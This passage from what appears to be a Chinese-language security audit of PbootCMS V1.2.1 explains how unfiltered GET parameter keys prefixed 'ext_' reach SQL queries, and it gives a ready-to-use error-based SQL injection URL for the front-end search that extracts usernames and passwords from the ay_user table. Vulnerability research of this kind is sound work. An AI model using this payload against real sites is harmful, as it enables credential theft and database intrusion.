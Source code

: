 ```
// 解析全局后置公共标签
    public function parserAfter($content)
    {
        ...
        $content = $this->parserSpecifyListLabel($content); // 指定列表
        return $content;
    } 
```

方法：parserSpecifyListLabel(

```
进入以后 查看调用了 $content = $this->parserSpecifyListLabel($content); 方法 
```

```
// 解析指定分类列表标签
public function parserSpecifyListLabel($content)
{
  ...
  // 数据筛选 骚操作注入
  $where2 = array();
  foreach ($_GET as $key => $value) {
    if (substr($key, 0, 4) == 'ext_') { // 其他字段不加入
      $where2[$key] = get($key);
    }
  }
  ...
  // 读取数据
  if ($page) {
    $data = $this->model->getList($scode, $num, $order, $where1, $where2);
  } else {
    $data = $this->model->getSpecifyList($scode, $num, $order, $where1, $where2);
  }
} 
```

这里就将重要的方法分析一下了，其他无关的就删除掉避免影响阅读。
这里接收了外部了外部所有的get参数然后判断了开头的前4个字符是否 ext_ 开头，如果符合就直接拼接进入$where2这个数组 然后带入数据库进行getList方法与getSpecifyList查询，而底层是字符串拼接，过滤了value没有过滤key所以有注入

## 0x08.4 前台搜索框注入

### 0x08.4.1 漏洞利用

```
url:http://127.0.0.1/cms/PbootCMS-V1.2.1/index.php/Search/index?keyword=aaaa&updatexml(1,concat(0x7e,(SELECT/**/distinct/**/concat(0x23,username,0x3a,password,0x23)/**/FROM/**/ay_user/**/limit/**/0,1),0x7e),1));%23=123 
```

![image](img/029a1a49df3f3a14ff52b2160da88d97.png)
